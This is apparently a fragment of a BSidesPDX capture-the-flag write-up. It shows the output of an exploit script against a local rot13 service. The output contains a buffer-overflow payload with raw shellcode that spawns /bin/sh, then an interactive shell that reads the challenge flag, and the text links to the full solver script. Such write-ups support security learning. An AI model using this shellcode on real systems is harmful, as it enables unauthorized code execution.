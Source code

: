 And run it!

```
$ ./solver.py 
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Switching to interactive mode
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀1�jX̀
$ cat /app/flag.txt
BSidesPDX{pwn_it__l1k3_its_1999_AAAAAAAAAAAAAAAAAAAAAAAAAAAA%}
```

You can get the full exploit script here: [solver.py](solver.py)
